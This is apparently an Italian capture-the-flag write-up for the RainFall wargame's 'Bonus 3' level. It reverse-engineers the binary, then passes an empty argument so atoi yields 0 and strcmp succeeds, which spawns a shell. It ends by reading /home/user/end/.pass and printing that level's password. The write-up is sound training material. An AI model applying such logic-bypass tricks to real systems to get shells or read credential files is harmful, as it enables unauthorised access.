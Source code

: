 # Bonus 3
Controlliamo le stringhe presenti nel binario:
```
bonus3@RainFall:~$ readelf -p '.rodata' bonus3

String dump of section '.rodata':
  [     8]  r
  [     a]  /home/user/end/.pass
  [    1f]  sh
  [    22]  /bin/sh
```
e passiamo a `gdb`:
```
bonus3@RainFall:~$ gdb -q bonus3
Reading symbols from /home/user/bonus3/bonus3...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  strcmp
0x080483b0  strcmp@plt
0x080483c0  fclose
0x080483c0  fclose@plt
0x080483d0  fread
0x080483d0  fread@plt
0x080483e0  puts
0x080483e0  puts@plt
0x080483f0  __gmon_start__
0x080483f0  __gmon_start__@plt
0x08048400  __libc_start_main
0x08048400  __libc_start_main@plt
0x08048410  fopen
0x08048410  fopen@plt
0x08048420  execl
0x08048420  execl@plt
0x08048430  atoi
0x08048430  atoi@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  main
0x08048620  __libc_csu_init
0x08048690  __libc_csu_fini
0x08048692  __i686.get_pc_thunk.bx
0x080486a0  __do_global_ctors_aux
0x080486cc  _fini
```

### Funzione `main`
Abbiamo due buffer da 66 e da 65 byte, come prima cosa viene chiamata la funzione `fopen` nel seguente modo:
```
FILE *file = fopen("/home/user/end/.pass", "r");
```
successivamente viene settato tutto a zero il primo buffer e viene controllato se `fopen` sia andato a buon fine
e gli argomenti dell'eseguibile siano 2, altrimenti si termina il programma.
Con `fread` viene letto il contenuto del file e copiato nel primo buffer, impostando successivamente a zero il carattere
dato dall'indice ritornato da atoi che prende come argomento il primo argomento del binario.
Poi abbiamo un'altra chiamata a `fread` dove viene copiato il file nel secondo buffer e in fine si controlla con `strcmp`
se il primo buffer e il primo argomento dell'eseguibile sono uguali, così da passare a `execl("/bin/sh", "sh", 0)`.

### Soluzione
Per far si che `strcmp` restituisca `0` dobbiamo inserire come argomento una stringa vuota, così che `atoi` andando
in errore restituisca `0` e verrà così impostato il primo carattere a `0` del buffer. Dato che `strcmp` controlla fino al
carattere `0`, le due stringhe saranno identiche:
```
bonus3@RainFall:~$ ./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
```
```
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$
```